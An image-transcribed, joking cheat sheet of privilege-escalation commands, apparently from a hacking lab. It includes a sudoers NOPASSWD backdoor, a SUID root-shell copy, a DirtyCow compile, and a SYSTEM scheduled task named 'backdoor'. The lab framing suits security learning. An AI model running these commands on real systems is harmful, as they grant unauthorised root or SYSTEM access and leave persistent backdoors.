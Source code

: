 
# good SUID scan
find / -perm -4000 2>/dev/null

# this looked weird... /usr/bin/screen had SUID bit?!
ls -la /usr/bin/screen

# always try this even though it rarely works
sudo -l

# maybe edit cronjob? I saw /etc/cron.d/backup doing something sus
nano /etc/cron.d/backup

# installed LinPEAS and forgot to run it, just staring at .sh file for 3 mins
chmod +x linpeas.sh && ./linpeas.sh

# tried to hijack PATH, didnt work...
echo $PATH
PATH=/tmp:$PATH
echo "bash" > /tmp/find && chmod +x /tmp/find

# added user to sudoers. definitely burned the lab down on accident. dawdsd
echo "hax ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# this command opened a root shell and I still don’t trust it
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p

# lol no one patched DirtyCow. into the kernel.
gcc -pthread dirty.c -o dirty && ./dirty

# AlwaysInstallElevated? 
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

# used winPEAS, saw "Abuse available .msi packages to get SYSTEM" — didn't ask how, just clicked run.. always confusing these things
powershell -ExecutionPolicy Bypass -File winpeas.ps1

# schtasks = SYSTEM shell every minute.
schtasks /create /tn "backdoor" /tr "cmd.exe /c whoami > C:\output.txt" /sc minute /ru SYSTEM

# opened up service list and there was some sketchy name like "UpdaterServiceX" with no quotes
wmic service get name,displayname,pathname,startmode | findstr /i "Updater"

# I was already root but tried exploiting something anyway. This is why people don't invite me to their labs.
whoami && sudo whoami && ./exploit_me_anyway.py
